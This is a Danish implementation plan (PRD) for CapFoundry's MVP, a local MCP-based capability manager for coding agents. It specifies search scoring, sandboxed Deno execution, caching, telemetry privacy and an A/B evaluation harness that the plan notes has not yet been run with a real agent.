


# CapFoundry MVP — Implementeringsplan (PRD)

**Version 1.6** · **Sidst opdateret: 2026-09-12**

> **Status: alle 17 features er bygget. Eksperimentet er ubesvaret.**
>
> Fase 0–3 er leveret og MVP §25's milepæl er nået. `PRD-FEAT-015` — A/B-harnesset — er bygget og
> testet, men **aldrig kørt med en rigtig agent**: de to rapporter i `eval/reports/` er begge fra
> mock-driveren, og de siger selv i første afsnit at de beviser harnesset frem for CapFoundry.
> Fase 5 er urørt; `docs/mvp/RESULTS-v0.2.md` findes ikke.
>
> Det efterlader den ene ting hele planen blev skrevet for at producere — et **målt** svar på om
> det her betaler sig — stadig uskrevet. Alt andet er stillads omkring det spørgsmål.

Dette dokument omsætter [MVP v0.2](docs/mvp/CapFoundry-MVP-v0.2.md) til en plan der kan kodes efter. Det tilføjer ingen ambition til MVP'en — det lukker de huller der forhindrede den i at blive bygget, og det respekterer §5 (hvad vi bevidst ikke bygger), §27 (fejlreglen) og §28 (whiteboard-reglen) som bindende begrænsninger.

**Kildehierarki:** MVP v0.2 er normativ. [Vision & Architecture v0.5](docs/vision/CapFoundry-Vision-Architecture-v0.5.md) bruges kun til at afgøre tvivl, aldrig til at udvide scope.

---

## Arkitekturbeslutninger truffet i denne plan

MVP v0.2 lod syv ting stå åbne. De er nu afgjort:

| # | Åbent i MVP v0.2 | Beslutning | Konsekvens |
|---|---|---|---|
| AD-1 | §18: agentens kanal til CFCM | **Lokal MCP-server** | Skill'en bliver politik, ikke kaldeinstruktioner. A/B-kontrolgruppen er samme agent uden serveren tilsluttet |
| AD-2 | §12: søgealgoritme | **Leksikalsk BM25 + IDF-dækning** | Nul afhængigheder, deterministisk. Vi *måler* om semantik er nødvendig i stedet for at antage det |
| AD-3 | §13: eksekveringssandbox | **Deno-subprocess med nul rettigheder** | `"effect": "PURE"` bliver håndhævet, ikke betroet (Vision §18) |
| AD-4 | §3/§4: central service | **Statisk registry i Git + lille intake-endpoint** | Publish = pull request. Provenance følger Git-historik. Registryet kan kasseres uden at rive infrastruktur ned |
| AD-5 | §21: telemetri-transport | **Lokal JSONL, opt-in upload** | §13's privatlivsløfte holder per default. A/B-riggen læser fra disk og er uafhængig af centralen |
| AD-6 | §22/§23: A/B-mekanik | **Scriptet harness med deterministisk scoring** | §27's fejlregel kan faktisk håndhæves |
| AD-7 | §25: rækkefølge | **Tynd lodret skive først** | Rørrisikoen bevises før syv kontrakter låses |

---

## PRD-SEC-001 · Overblik & målsætning

### Hvad vi bygger

En lokal capability-manager (CFCM) der lader en kodeagent spørge *"kan CapFoundry allerede dette?"* før den genererer kode — og som besvarer spørgsmålet hurtigt nok, og præcist nok, til at det betaler sig.

### Hvad succes betyder

MVP'en er **ikke** lykkedes fordi den kører. Den er lykkedes når den har produceret et målt svar på §2's otte spørgsmål — også hvis svaret er nej.

**Primær succesmetrik:** nettoværdi efter overhead, målt af A/B-harnesset (`PRD-FEAT-015`):

```text
nettoværdi = (korrekthedsgevinst + sparede tokens + sparet latens)
           − (søgelatens + resolve-latens + eksekveringsoverhead + spildte søgninger)
```

### Målbare udgangskriterier for MVP'en

| ID | Kriterium | Tærskel | Kilde |
|---|---|---|---|
| OBJ-1 | Søge-hit rate på opgaver hvor der *findes* et exact match | ≥ 0,80 | §2.1, §23 |
| OBJ-2 | Wrong-match rate på near-miss-scenarier | ≤ 0,05 | §2.4, §23 |
| OBJ-3 | CFCM-overhead ende-til-ende ved cache hit (søg + resolve + kør) | ≤ 250 ms p95 | §2.2, §23 |
| OBJ-4 | Test pass rate for capability-resultater vs. genereret kode | ≥ genereret baseline | §2.3 |
| OBJ-5 | Kandidatstøj: andel indleverede kandidater der er reelt genbrugelige | ≥ 0,50 | §2.5, §27 |
| OBJ-6 | Offentlige, private og `Local.*` capabilities søges som ét rum | binær: ja/nej | §2.6 |
| OBJ-7 | Artefakt-retur bruges og er nyttig i mindst ét scenarie | binær: ja/nej | §2.7 |

OBJ-8 (§2.8, "bliver kandidater genbrugt nok til at skabe rentes rente") **kan ikke måles i MVP'ens tidshorisont**. Det noteres eksplicit som udskudt, ikke som opfyldt.

### Ikke-mål

Alt i MVP §5 er bindende ude af scope. Derudover: ingen autentificering på registryet, ingen multi-tenant, ingen versionsforhandling ud over exact-match på version, ingen delta-distribution.

---

## PRD-SEC-002 · Målgruppe

### Primær bruger: kodeagenten

Den egentlige "bruger" er en LLM-drevet kodeagent (Claude Code, Cursor o.l.) med MCP-understøttelse. Dens behov er ikke et UI, men en **værktøjsoverflade der er billig at ræsonnere om**:

- Beslutningen "skal jeg søge?" skal kunne træffes uden et kald.
- Et svar skal kunne bruges eller forkastes uden opfølgende kald.
- Fallback skal være det billigste, ikke det dyreste, udfald.

Dette former `PRD-FEAT-008` og `PRD-FEAT-014` mere end noget andet krav i dokumentet.

### Sekundær bruger: udvikleren bag agenten

Konfigurerer `cfcm.json`, registrerer private namespaces, reviewer kandidater som pull requests, læser Explore. Har brug for at kunne se *hvorfor* CFCM svarede som den gjorde — derfor er søgeevidens en del af svaret, ikke kun en score.

### Tertiær bruger: eksperimentatoren

Dig, der skal afgøre om CapFoundry skal fortsætte. Har brug for at `deno task eval` producerer en tabel man kan træffe en beslutning på.

---

## PRD-SEC-003 · Kernefunktioner

Prioritet: **P0** = første milepæl (§25) kan ikke nås uden. **P1** = kræves for at MVP'en kan bevise noget. **P2** = kræves for at MVP'en er komplet ifølge §4.

---

### PRD-FEAT-001 · Capability-deskriptor og CFP-format · P0 · S · ✅ leveret

Fastfryser `capability.json` (§11) og CFP-mappestrukturen (§17) for MVP'en. Formatet er **MVP-frosset, ikke v1-frosset** — det må ændre sig, men kun via en bevidst bump af `schemaVersion`.

`PRD-FEAT-001.1` JSON Schema for `capability.json`, versioneret som `schemaVersion: 1`
`PRD-FEAT-001.2` CFP-mappelayout som kanonisk on-disk-form (arkivformat udskydes)
`PRD-FEAT-001.3` `provenance.json` med oprindelse, licens, forfatter og oprettelsestidspunkt
`PRD-FEAT-001.4` Validator: `deno task validate` afviser en ugyldig CFP med præcis fejlbesked

**Acceptkriterier**
- En CFP der mangler `sha256`, `exposure` eller `effect` afvises med en fejl der navngiver feltet og filen.
- En CFP hvor `artifact.sha256` ikke matcher filens faktiske hash afvises.
- Validatoren kører over alle CFP'er i `capabilities/` og fejler build ved mindst én overtrædelse.
- En `effect`-værdi uden for `PURE | READ | WRITE | NETWORK` afvises (MVP tillader kun `PURE` i praksis, men feltet skal validere).

---

### PRD-FEAT-002 · Statisk registry og indeksbygning · P0 · M · ✅ leveret

Registryet er filer i Git (AD-4). `registry/index.json` er et **bygget, committet artefakt** — aldrig håndredigeret.

`PRD-FEAT-002.1` `scripts/build-index.ts` udleder indekset fra alle CFP'er i `capabilities/`
`PRD-FEAT-002.2` Indekset indeholder kun søge- og resolvefelter (§8), aldrig artefaktkode
`PRD-FEAT-002.3` Artefakter serveres statisk fra samme repo, adresseret ved sti + sha256
`PRD-FEAT-002.4` CI fejler hvis `index.json` ikke er i sync med `capabilities/`

**Acceptkriterier**
- `deno task build-index` er idempotent: to kørsler i træk giver bit-identisk output.
- Indekset for syv capabilities er < 32 KB, så det kan hentes i ét kald.
- Publish af en ny capability kræver præcis: tilføj CFP-mappe, kør build-index, åbn PR. Ingen andre trin.
- En PR der ændrer en CFP uden at genbygge indekset bliver rødt i CI.

---

### PRD-FEAT-003 · CFCM-kerne: konfiguration og namespace-kilder · P0 · M · ✅ leveret

Implementerer §6 og §7. Ét kapabilitetsrum sammensat af flere kilder.

`PRD-FEAT-003.1` Indlæsning og validering af `cfcm.json` med tydelige fejl ved ugyldig konfiguration
`PRD-FEAT-003.2` Kildetype `registry` (HTTP mod det statiske registry) med timestamp/ETag-check (§8)
`PRD-FEAT-003.3` Kildetype `filesystem` for private namespaces
`PRD-FEAT-003.4` Indbygget `Local.*`-kilde, ikke konfigurerbar som ekstern kilde (§15)
`PRD-FEAT-003.5` Namespace-kollisionsregel og reservation af `Local` og `CapFoundry`

**Acceptkriterier**
- Et namespace erklæret som `Local` i `cfcm.json` afvises ved opstart med en besked der forklarer at `Local` er reserveret.
- Et privat namespace peget mod en ikke-eksisterende sti giver en advarsel, men forhindrer ikke CFCM i at starte på de øvrige kilder.
- Offentlige, private og `Local.*` capabilities optræder i ét samlet søgeresultat (OBJ-6).
- Hver index-record bærer `namespaceType: public | private | local` hele vejen til telemetrien.
- Uden netværk starter CFCM på cache og private/lokale kilder, og markerer registrykilden som `stale`.

---

### PRD-FEAT-004 · Leksikalsk søgning · P0 · L · ✅ leveret

Implementerer §12 under AD-2. Dette er MVP'ens vigtigste algoritme, så den er specificeret eksplicit frem for overladt til implementeringen.

**Scoringsmodel**

Tokenisering: lowercase, unicode-normalisering, split på ikke-alfanumerisk, splitning af camelCase og dot-segmenter, stopordsfjernelse, ingen stemming i v1.

BM25 (`k1 = 1.2`, `b = 0.75`) over feltvægtede dokumenter:

| Felt | Vægt |
|---|---|
| `name` (dot-splittet) | 3,0 |
| `aliases` | 2,5 |
| `exampleQueries` | 2,0 |
| `description` | 1,5 |
| `tags` | 1,0 |
| `inputSummary` / `outputSummary` | 0,5 |

**Konfidens** — bevidst todelt, så et højt score på en kort forespørgsel ikke alene kan udløse et match:

```text
idfCoverage = Σ idf(matchede forespørgselstokens) / Σ idf(alle forespørgselstokens)
margin      = (score₁ − score₂) / score₁          (= 1,0 hvis kun én kandidat)
confidence  = 0,7 × idfCoverage + 0,3 × margin
```

**Statusregel**

```text
confidence ≥ 0,55           -> MATCH
0,35 ≤ confidence < 0,55    -> PARTIAL_MATCH   (returnerer kandidater som metadata, aldrig auto-kørsel)
confidence < 0,35           -> NO_MATCH
```

Alle fem tal (`0,7`, `0,3`, `0,55`, `0,35`, feltvægte) er **tunbare knapper i `cfcm.json`**, og den anvendte værdi logges i hver telemetri-event, så tærsklerne kan sweepes mod evalueringssættet efter dataindsamling.

`PRD-FEAT-004.1` Tokenizer med camelCase- og dot-splitning
`PRD-FEAT-004.2` BM25-indeks bygget i hukommelsen ved opstart
`PRD-FEAT-004.3` Konfidensberegning og statusregel
`PRD-FEAT-004.4` Runtime- og effektfiltre anvendt før scoring
`PRD-FEAT-004.5` Søgeevidens i svaret: hvilke tokens matchede hvilke felter

**Acceptkriterier**
- `"calculate distance between two latitude longitude coordinates"` giver `MATCH` på `CapFoundry.geo.distance` (§12's eget eksempel).
- Mindst tre omskrivninger pr. capability, der ikke deler capability-navnet, giver `MATCH` (OBJ-1).
- Det kuraterede near-miss-sæt (`eval/scenarios/near-miss/`) giver **aldrig** `MATCH` (OBJ-2).
- `"send an email to the customer"` giver `NO_MATCH`, ikke `PARTIAL_MATCH`.
- Søgelatens over syv capabilities: ≤ 5 ms p95 efter opstart.
- Søgeresultatet indeholder evidens der gør et menneske i stand til at forklare scoren uden at læse koden.

---

### PRD-FEAT-005 · Artefakt-resolver, cache og verifikation · P0 · M · ✅ leveret

Implementerer §8's cachediagram.

`PRD-FEAT-005.1` Indholdsadresseret cache under `~/.cfcm/artifacts/<sha256>`
`PRD-FEAT-005.2` Hent ved cache miss, verificér sha256 før skrivning til cache
`PRD-FEAT-005.3` Afvis og cache **ikke** ved hash-mismatch; log som sikkerhedshændelse
`PRD-FEAT-005.4` Indeks-cache med timestamp/ETag-check, ikke delta-distribution
`PRD-FEAT-005.5` `cfcm cache clear` og `cfcm cache ls`

**Acceptkriterier**
- Et manipuleret artefakt med forkert hash eksekveres aldrig, og fejlen navngiver forventet vs. faktisk hash.
- Andet kald til samme capability rammer cachen; `artifactCacheHit: true` optræder i telemetrien.
- Cache hit tilføjer < 5 ms til invokation.
- Cachen overlever genstart af CFCM.
- Private capabilities fra en `filesystem`-kilde læses direkte og forurener ikke den delte artefakt-cache.

---

### PRD-FEAT-006 · Sandboxet lokal eksekvering · P0 · L · ✅ leveret

Implementerer §13 under AD-3. **Sikkerhedskritisk feature.**

`PRD-FEAT-006.1` Subprocess-spawner: `deno run` uden ét eneste `--allow-*` flag for `effect: PURE`, plus `--no-remote`, `--no-npm` og `clearEnv` — se SEC-10, nul rettigheder alene er ikke nok
`PRD-FEAT-006.2` Struktureret input via stdin, struktureret output via stdout, diagnostik via stderr
`PRD-FEAT-006.3` Hård timeout (default 5000 ms) med proces-kill, ikke kun en afvist promise
`PRD-FEAT-006.4` Output-størrelsesloft (default 4 MB) og kill ved overskridelse
`PRD-FEAT-006.5` Validering af input mod `inputSchema` før spawn, og output mod `outputSchema` efter
`PRD-FEAT-006.6` Separat måling af `spawnMs` og `executionMs`

**Acceptkriterier**
- Et testartefakt der forsøger `fetch()` fejler med en Deno permission-fejl, ikke med et netværkskald.
- Et testartefakt der forsøger `Deno.readTextFile()` fejler tilsvarende.
- Et artefakt med en uendelig løkke dræbes indenfor timeout + 200 ms, og processen efterlades ikke.
- Input der ikke matcher `inputSchema` afvises **før** en proces spawnes.
- `spawnMs` rapporteres separat, så §23's overheadtal ikke skjuler proces-omkostningen (OBJ-3).
- Ingen miljøvariabler fra værtsprocessen er synlige inde i artefaktet.
- Et artefakt med et statisk remote import afvises af runtime frem for at hente noget (SEC-10).

---

### PRD-FEAT-007 · Return modes og exposure-politik · P1 · S · ✅ leveret

Implementerer §9 og §10's exposure-blok.

`PRD-FEAT-007.1` `result` (default), `artifact`, `result-and-artifact`, `metadata`
`PRD-FEAT-007.2` Håndhævelse mod `exposure.execution` og `exposure.artifact`
`PRD-FEAT-007.3` Afvisning der forklarer *hvilken* politik der blokerede, uden at lække artefaktet

**Acceptkriterier**
- En capability med `exposure.artifact: false` returnerer aldrig kildekode, uanset return mode.
- En capability med `exposure.execution: false` kan stadig returnere `metadata`.
- `metadata` udfører aldrig artefaktet og spawner ingen proces.
- `result-and-artifact` på `CapFoundry.ui.dataTable` leverer både genereret markup og Custom Element-koden.

---

### PRD-FEAT-008 · MCP-serveroverflade · P0 · M · ✅ leveret

Implementerer AD-1. Dette er agentens eneste kontaktflade (§18: agenten skal ikke ræsonnere om cache eller routing).

**Værktøjer**

| Værktøj | Formål |
|---|---|
| `cfcm_search` | Naturligsprogsforespørgsel → `MATCH` / `PARTIAL_MATCH` / `NO_MATCH` + konfidens + kontrakt + evidens |
| `cfcm_invoke` | Kør en capability ved navn+version med input og return mode |
| `cfcm_describe` | Fuld kontrakt for en kendt capability uden at køre den |
| `cfcm_submit_candidate` | Indlever en kandidat efter generering |

`PRD-FEAT-008.1` MCP-server over stdio, startbar som `deno task cfcm:mcp`
`PRD-FEAT-008.2` Værktøjsbeskrivelser der selv indkoder hvornår de bør bruges
`PRD-FEAT-008.3` Strukturerede fejl der altid tilbyder et rent fallback-svar
`PRD-FEAT-008.4` Ét kombineret `search`+`invoke`-svar ved høj konfidens, så det almindelige tilfælde koster ét kald

**Acceptkriterier**
- Serveren registrerer sig korrekt i Claude Code og værktøjerne er kaldbare uden yderligere konfiguration.
- Et `NO_MATCH`-svar er kort nok til ikke at spilde tokens og siger eksplicit "generér selv".
- Ingen fejltilstand får agenten til at hænge: alt svarer indenfor timeout + 1 s.
- Agenten kan løse et exact-match-scenarie med højst to værktøjskald.
- Serveren starter selv når registryet er utilgængeligt, og siger det i sit første svar.

---

### PRD-FEAT-009 · Telemetri · P1 · M · ✅ leveret

Implementerer §21 under AD-5.

`PRD-FEAT-009.1` Append-only JSONL i `~/.cfcm/telemetry/YYYY-MM-DD.jsonl`
`PRD-FEAT-009.2` Alle §21-felter, plus `spawnMs` og de anvendte søgetærskler
`PRD-FEAT-009.3` Opt-in upload, styret af `telemetry.upload` i `cfcm.json`, default `false`
`PRD-FEAT-009.4` Redaktionsgaranti: input og output logges aldrig, heller ikke ved fejl
`PRD-FEAT-009.5` `scripts/aggregate-telemetry.ts` producerer Explore-tallene — ✅ leveret, 11 tests

**Acceptkriterier**
- En grep efter et kendt input-payload i hele telemetri-mappen giver nul træf efter en fuld evalueringskørsel.
- Med `telemetry.upload: false` foretager CFCM nul udgående kald under invokation.
- Første kørsel skriver en synlig note om hvad der logges lokalt, og hvordan upload slås til.
- Telemetri-skrivning tilføjer < 2 ms til invokation.

---

### PRD-FEAT-010 · De syv offentlige capabilities · P0/P1 · L · ✅ leveret

Fra §10. Hver er en komplet CFP med tests, aliases og eksempelforespørgsler.

| Sub-ID | Capability | Prioritet | Note |
|---|---|---|---|
| `PRD-FEAT-010.1` | `CapFoundry.geo.distance` | P0 | Den lodrette skives capability (AD-7) |
| `PRD-FEAT-010.2` | `CapFoundry.text.slugify` | P1 | |
| `PRD-FEAT-010.3` | `CapFoundry.date.businessDaysBetween` | P1 | |
| `PRD-FEAT-010.4` | `CapFoundry.validation.iban` | P1 | |
| `PRD-FEAT-010.5` | `CapFoundry.csv.detectDelimiter` | P1 | Returnerer også evidens, ikke kun et tegn |
| `PRD-FEAT-010.6` | `CapFoundry.json.schema.infer` | P1 | §37-benchmarken mod direkte LLM-generering |
| `PRD-FEAT-010.7` | `CapFoundry.ui.dataTable` | P1 | Eneste artefakt-returnerende capability |

**Fælles acceptkriterier (gælder alle syv)**
- ≥ 10 tabeldrevne tests inkl. randtilfælde og mindst ét bevidst ugyldigt input.
- ≥ 3 `aliases` og ≥ 3 `exampleQueries` der ikke gentager capability-navnet (understøtter OBJ-1).
- `effect: PURE` og kører grønt under nul-rettigheds-sandboxen.
- `inputSchema` og `outputSchema` er komplette nok til at validere alle testcases.
- Deterministisk: samme input giver bit-identisk output over 100 kørsler.

**Specifikke krav**
- `010.6` skal have eksplicit dokumenterede regler for enum-inferens, required-felter, nested objekter og arrays — reglerne er kontrakten, og benchmarken mod LLM-generering er meningsløs uden dem.
- `010.7` skal producere et Custom Element uden build-trin, uden framework, med tastaturnavigérbar og skærmlæservenlig sortering.

**OQ-1 afgjort:** §10 viser `<netsi-table>` for en capability i `CapFoundry.*`-namespacet, hvilket er inkonsistent. Løsningen blev ikke at vælge ét navn, men at gøre `elementName` til et **input** med default `cf-data-table`, valideret mod HTML's custom element-regler. Kalderen bestemmer, og §10's `<netsi-table>` er stadig muligt uden at låse namespacet.

---

### PRD-FEAT-011 · Privat namespace-fixture · P1 · S · ✅ leveret

Implementerer §14. `Netsi.demo.getCustomer` mod lokale fixture-data.

**Acceptkriterier**
- Registreret udelukkende gennem `cfcm.json`, ingen kode i CFCM kender til `Netsi`.
- Optræder i samme søgeresultat som offentlige capabilities (OBJ-6).
- Har `exposure.artifact: false` og beviser dermed at politik kan afvige fra det offentlige.
- Optræder aldrig i `registry/index.json`.
- Telemetri viser `namespaceType: private` og lækker ikke capability-navnet ved upload.

---

### PRD-FEAT-012 · `Local.*`-fixture · P1 · S · ✅ leveret

Implementerer §15. `Local.dev.echo`.

**Acceptkriterier**
- Findes af den lokale CFCM.
- Er fraværende fra både registryet og alle private kilder.
- Forsøg på at indlevere en `Local.*` capability som kandidat afvises med en forklaring.
- Telemetri viser `namespaceType: local`.

---

### PRD-FEAT-013 · Kandidatindlevering og review · P1 · M · ✅ leveret

Implementerer §16 under AD-4: review er pull request-review.

`PRD-FEAT-013.1` `cfcm_submit_candidate` med §16's minimale felter
`PRD-FEAT-013.2` Lokal kandidatkø i `~/.cfcm/candidates/` — intet går ud uden brugerens handling
`PRD-FEAT-013.3` `cfcm candidate promote <id>` genererer en CFP-skabelon klar til PR
`PRD-FEAT-013.4` Dubletdetektion mod indekset ved indlevering, så samme kandidat ikke indleveres to gange
`PRD-FEAT-013.5` Valgfrit intake-endpoint for indlevering fra andre maskiner — **udskudt**. Det er markeret valgfrit i planen, og det kræver hosting. Indlevering skriver til disk; ingenting forlader maskinen

**Acceptkriterier**
- Ingen kandidat publiceres automatisk (§16, eksplicit).
- Indlevering af en kandidat der leksikalsk matcher en eksisterende capability over `MATCH`-tærsklen advarer med navnet på den eksisterende.
- En forfremmet kandidat producerer en CFP der består `PRD-FEAT-001.4`-validatoren.
- Kandidatraten pr. opgave logges, så OBJ-5's støjmåling er mulig.

---

### PRD-FEAT-014 · Capability Awareness Skill · P1 · M · ✅ leveret

Implementerer §18. Under AD-1 er dette **ren politik** — ingen kaldemekanik.

Skill'en skal lære agenten præcis seks ting, i denne rækkefølge:

1. **Hvornår det er værd at søge** — deterministisk, generisk, genbrugelig delopgave. Ikke: forretningslogik, engangskode, noget projektspecifikt.
2. **Hvornår det ikke er værd** — opgaven er triviel, eller den er så specifik at et match ville være mistænkeligt.
3. **Hvordan et `MATCH` bruges** — brug det, forklar ikke, verificér ikke ved at genimplementere.
4. **Hvornår et artefakt skal hentes i stedet for et resultat** — når koden skal ind i brugerens projekt.
5. **Hvordan der faldes rent tilbage** — `NO_MATCH` er et normalt svar, ikke en fejl; generér uden kommentar.
6. **Hvornår en kandidat overvejes** — kun for noget generisk der blev skrevet, ikke for alt.

**Acceptkriterier**
- Skill'en er under 100 linjer. Er den længere, er MCP-overfladen for kompliceret (§18).
- Den nævner hverken cache, registry, sha256 eller eksekveringsrouting.
- I `search-skal-springes-over`-scenariet søger agenten ikke.
- I `kandidat-ikke-berettiget`-scenariet indleverer agenten ikke.

---

### PRD-FEAT-015 · A/B-evalueringsharness · P1 · L · ⚠️ **bygget, aldrig kørt med en rigtig agent**

Implementerer §22–§23 under AD-6. **Dette er den feature MVP'en findes for.**

`PRD-FEAT-015.1` Scenariemappe pr. testtilfælde: prompt, fixtures, maskinel assertion, forventet CFCM-adfærd
`PRD-FEAT-015.2` Runner der kører hvert scenarie i betingelse A (MCP tilsluttet) og B (kontrol)
`PRD-FEAT-015.3` Deterministisk korrekthedsscoring — ingen LLM som dommer
`PRD-FEAT-015.4` Metrikudtræk fra JSONL-telemetri plus agentens token- og latensrapportering
`PRD-FEAT-015.5` `eval/reports/<timestamp>.md` med sammenligningstabel og OBJ-1..7-status
`PRD-FEAT-015.6` `n` gentagelser pr. scenarie med rapporteret varians, ikke enkeltkørsler

**Alle ti §22-scenarier**

| Scenarie | Forventet CFCM-adfærd | Beviser |
|---|---|---|
| `exact-match-small` | `MATCH`, kørt | OBJ-1 |
| `json-schema-infer` | `MATCH`, kørt | OBJ-1, OBJ-4, §37 |
| `custom-element-artifact` | `MATCH`, artefakt returneret | OBJ-7 |
| `near-miss-reject` | ikke `MATCH` | OBJ-2 |
| `no-capability-exists` | `NO_MATCH`, ren fallback | OBJ-2 |
| `search-should-be-skipped` | intet søgekald overhovedet | Skill-kvalitet |
| `candidate-worthy` | kandidat indleveret | OBJ-5 |
| `candidate-not-worthy` | ingen kandidat | OBJ-5 |
| `private-capability` | `MATCH` i privat namespace | OBJ-6 |
| `local-capability` | `MATCH` i `Local.*` | OBJ-6 |

**Acceptkriterier**
- `deno task eval` kører alle ti scenarier i begge betingelser og producerer én rapportfil.
- Korrekthed afgøres af assertions, aldrig af en model.
- Rapporten angiver eksplicit for hvert af OBJ-1..OBJ-7 om tærsklen er nået, ikke nået, eller ikke målbar.
- Rapporten indeholder et **fejlregelafsnit** der afkrydser §27's syv falsifikationsbetingelser direkte.
- En kørsel er reproducerbar: samme scenarier, samme model, samme seeds → sammenlignelige tal.

---

### PRD-FEAT-016 · Explore / Trending · P2 · S · ✅ leveret

Implementerer §20. Statisk genereret side, ingen LLM-analyse.

`PRD-FEAT-016.1` Statisk HTML genereret fra aggregeret telemetri
`PRD-FEAT-016.2` Alle seks §20-sektioner: Most Used, Most Searched, Missing/gentagne `NO_MATCH`, New Candidates, Fastest Growing, Recently Added
`PRD-FEAT-016.3` Publiceret via GitHub Pages **som et workflow-trin der kører `aggregate`**, ikke som committet output — se rettelsen nedenfor

> **Rettelse til `016.3`.** Oprindeligt stod der at siden skulle publiceres fra repoet, hvilket
> implicerede at `data.json` og `index.html` blev committet. Det er forkert, og Marie fangede det:
> `data.json` er **én maskines telemetri**, og `index.html` er genereret af den. At committe
> nogen af dem ville publicere den maskines forbrug — inklusive `missing`, altså de forespørgsler
> brugeren har stillet. Det ville omgøre hele privatlivsbeslutningen om `logQueryText` gennem en
> sidedør. Outputtet er gitignoreret; Pages skal være et workflow-trin der kører `aggregate` mod
> de data der er tiltænkt offentliggørelse.

**Acceptkriterier**
- Siden bygger uden telemetri og viser da tomme sektioner frem for at fejle.
- `Missing` viser gentagne `NO_MATCH`-forespørgsler grupperet, ikke enkeltvis — det er efterspørgselssignalet.
- Ingen personhenførbare data på siden.
- Ingen serverkomponent kræves for at vise den.

---

### PRD-FEAT-017 · Capability Packager Skill — designspike · P2 · M · ✅ leveret

Implementerer §19. **Eksplicit ikke automatisering.** Succes er ifølge §19: én manuel gennemkørsel på ét lille MIT-licenseret repo, dokumenteret.

`PRD-FEAT-017.1` Skill der foreslår capability-grænser gennem dialog
`PRD-FEAT-017.2` Manuel gennemkørsel på ét udvalgt MIT-repo
`PRD-FEAT-017.3` `docs/packager-spike.md`: hvad krævede menneskelig dømmekraft, hvad kunne automatiseres
`PRD-FEAT-017.4` Licens- og provenance-bevaring i den producerede CFP

**Acceptkriterier**
- Gennemkørslen producerer én gyldig CFP der består validatoren.
- Den originale licens er bevaret i `license/` og krediteret i `provenance.json`.
- Spike-dokumentet navngiver mindst tre konkrete beslutninger der ikke kunne automatiseres.
- Ingen automatisk konvertering implementeres (§5).

---

## PRD-SEC-004 · Anbefalet teknologistak

### Stak

| Lag | Valg | Begrundelse |
|---|---|---|
| Runtime | **Deno 2.x** | §11's deskriptor siger allerede `"runtime": "deno"`; §24 forudsætter `deno.json`. Rettighedsmodellen *er* sandboxen i AD-3 — vi får `PRD-FEAT-006` af runtime frem for af et bibliotek |
| Sprog | TypeScript | Ét sprog i CFCM, capabilities, harness og scripts |
| Agent-protokol | MCP over stdio | AD-1 |
| Registry | Statiske filer i Git, serveret via GitHub Pages | AD-4 |
| Søgning | Egen BM25, nul afhængigheder | AD-2. ~200 linjer; et bibliotek ville koste mere i kontrol end i tid |
| Telemetri | JSONL på disk | AD-5 |
| Intake-endpoint | Én lille Deno-handler (Deno Deploy eller lignende) | Kun candidates + valgfri telemetri |
| Explore | Statisk HTML genereret ved build | §20 kræver determinisme, ikke interaktivitet |
| Test | `Deno.test` + tabeldrevne cases | Indbygget |
| Eval | Claude Agent SDK | `PRD-FEAT-015` |

### Bevidst fravalgte afhængigheder

Ingen embedding-model (AD-2 — vi måler først om det er nødvendigt). Ingen database (AD-4). Ingen webframework. Ingen bundler. Ingen container i udvikling.

### Omkostningsestimat

| Post | MVP-fase | Efter MVP |
|---|---|---|
| Registry- og Explore-hosting | 0 kr (GitHub Pages) | 0 kr |
| Intake-endpoint | 0 kr (gratis tier) | lav |
| Embeddings | 0 kr (ikke brugt) | kun hvis OBJ-1 fejler |
| **A/B-evalueringskørsler** | **den reelle udgift** | pr. kørsel |

Den eneste post der løber er evalueringen: 10 scenarier × 2 betingelser × `n` gentagelser. Ved `n = 5` er det 100 agentopgaver pr. fuld kørsel. Derfor kræver `PRD-FEAT-015.6` at `n` er en parameter, og derfor findes et hurtigt `--smoke`-sæt til udvikling.

